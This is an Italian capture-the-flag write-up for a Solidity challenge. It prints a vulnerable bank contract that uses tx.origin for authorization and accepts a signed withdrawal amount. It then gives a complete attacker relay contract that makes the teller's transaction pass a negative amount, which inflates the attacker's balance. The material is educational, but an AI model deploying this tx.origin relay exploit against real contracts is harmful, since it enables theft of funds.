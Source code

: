 # Soluzione
## Considerazioni
A mani basse la challenge più divertente che io abbia mai *provato* a fare in gara.

![Absolute cinema](https://media1.tenor.com/m/9gyW2QldGvkAAAAC/me-atrapaste-es-cine.gif)

(Non l'ho risolta ma è stato divertente ngl, a differenza di web)


## Idea
Al link [`https://epic-web3-donations.challs.olicyber.it/bank.sol`](https://epic-web3-donations.challs.olicyber.it/bank.sol) è possibile ottenere lo smart contract utilizzato dalla challenge.
```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

contract TxOriginBank {
    address public teller;
    mapping(address => int256) public balances;

    constructor() {
        teller = tx.origin;
    }

    function withdraw(address addr, int256 amount) public {
        require(tx.origin == teller, "Not a teller");
        balances[addr] -= amount;
        require(balances[addr] >= 0, "Insufficient balance");
    }

    function getBalance(address addr) public view returns (int256) {
        return balances[addr];
    }
}
```

Se si ha confidenza con Solidity (o con ChatGPT almeno), è possibile notare che la funzione withdraw controlla che:

1. Il parametro `amount` è un intero **con segno** a 256 bit
2. Per chiamare la funzione bisogna essere colui che ha richiesto la transazione per costruire il contratto (aka owner).
3. Il bilancio di un account può essere aumentato chiamando questa funzione grazie al punto **1**.
4. L'ultimo check è inutile.
5. I bilanci partono da **0**.

Fatte queste osservazioni è possibile exploitare questo smart-contract deployando un nostro smart contract che fa da "interfaccia" per le richieste allo smart-contract vulnerabile.

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

contract TxOriginBank {
    address public teller;
    mapping(address => int256) public balances;

    constructor() {
        teller = tx.origin;
    }

    function withdraw(address addr, int256 amount) public {
        require(tx.origin == teller, "Not a teller");
        balances[addr] -= amount;
        require(balances[addr] >= 0, "Insufficient balance");
    }

    function getBalance(address addr) public view returns (int256) {
        return balances[addr];
    }
}

contract FakeBank {
    TxOriginBank public bank;

    // the address provided by the challenge
    // the one in the input box with Bank Address above
    constructor(address _bank) {
        bank = TxOriginBank(_bank);
    }

    function withdraw(address addr, int256) public { // ignored amount lol
        bank.withdraw(addr, -1000000000);
    }

    function getBalance(address) public pure returns (int256) {
        return 1;
    }
}
```

Per solvarla consiglio comunque di usare un wallet come `MetaMask`, in questo caso mi è sembrato molto più comodo delle altre poche alternative che conosco.

Una volta fatto ciò possiamo far chiamare dalla challenge la `withdraw` sulla nostra `FakeBank` per poi chiamare il `getBalance` sulla banca originale.

In questo modo la transazione di `withdraw` avrà come origine il teller (aka wallet del bot di gara) e come amount `-1000000000`, aumentando il nostro balance.


*P.S.*: La challenge era poco chiara in gara, lo è ancora adesso post solve lol.